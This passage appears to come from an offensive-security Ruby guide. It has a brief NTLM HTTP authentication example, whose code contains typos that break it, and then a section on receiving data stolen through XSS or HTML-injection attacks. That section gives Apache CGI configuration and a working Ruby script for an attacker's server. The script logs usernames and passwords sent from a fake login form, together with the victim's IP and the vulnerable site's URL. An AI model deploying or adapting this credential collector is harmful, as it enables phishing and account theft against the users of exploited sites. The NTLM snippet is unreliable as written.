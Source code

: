   Note: ntlm gem works with http, imap, smtp protocols. [Read more](https://github.com/macks/ruby-ntlm).

```ruby
require 'ntlm/http'

username = "Admin"
password = "P@ssw0rd"
uri      = URI("http://rubyfu.net/login")

http = http = Net::HTTP.new(uri.host, uri.port)
req  = Net::HTTP::Get.new(uri)
req.ntlm_auth usernamen, password
res  = http.request(request)

puts res.body
```

## CGI

### Get info - from XSS/HTMLi exploitation

When you exploit XSS or HTML injection you may need to receive the grepped data from exploited user to your external server. Here a simple example of CGI script take sent get request from fake login from that asks users to enter log-in with username and password then will store the data to `hacked_login.txt` text file and fix its permissions to assure that nobody can access that file from public.

Add the following to `/etc/apache2/sites-enabled/[SITE]` then restart the service

```text
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory>
```

Now, put the script in /var/www/\[CGI FOLDER\]. You can use it now.

```ruby
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site URL
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts ""
```
